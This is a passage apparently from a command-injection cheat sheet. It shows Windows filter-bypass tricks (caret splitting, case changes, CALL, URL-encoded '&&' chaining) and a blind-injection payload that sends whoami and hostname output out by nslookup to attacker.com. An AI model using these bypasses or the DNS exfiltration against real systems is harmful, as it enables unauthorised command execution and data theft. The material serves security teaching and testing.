 ```cmd
C:\> echo %USERPROFILE:~3,-10%
\  # Extracts a backslash from the profile path
```

#### Using Caret (`^`) for Bypass

In Windows, the caret (`^`) can be used to escape or inject commands, which is especially useful when spaces or commands are blocked.

```cmd
who^ami
# Output in CMD:
# babel-win
```

#### Case-Insensitive Command Execution

On Windows systems, PowerShell and CMD are case-insensitive, which allows bypassing filters by changing the letter case of blacklisted commands.

```cmd
dir C:\
# Output in CMD:
# babel.txt  babel_config.txt
```

#### Using `CALL` Command

The `CALL` command in Windows allows executing commands indirectly, which can help bypass certain filters.

```cmd
CALL echo BabelSuccess
# Output in CMD:
# BabelSuccess
```

#### URL Encoding in Windows

Just like in Linux, URL encoding can also be effective in Windows environments. If certain characters are blacklisted, you can encode them.

```cmd
curl -X GET "http://example.com/api?host=babel_language%20%20%20&&echo WinBabel"
```

### Blind Command Injection Techniques

Let's say a website has a feedback feature:

```bash
mail -s "Awesome site feedback" -aFrom:peter@normal-user.net feedback@vulnerable-website.com <<EOF
Great job on the website! I really enjoy using it.

Best,
Peter
EOF
& nslookup $(whoami).$(hostname).attacker.com &
```
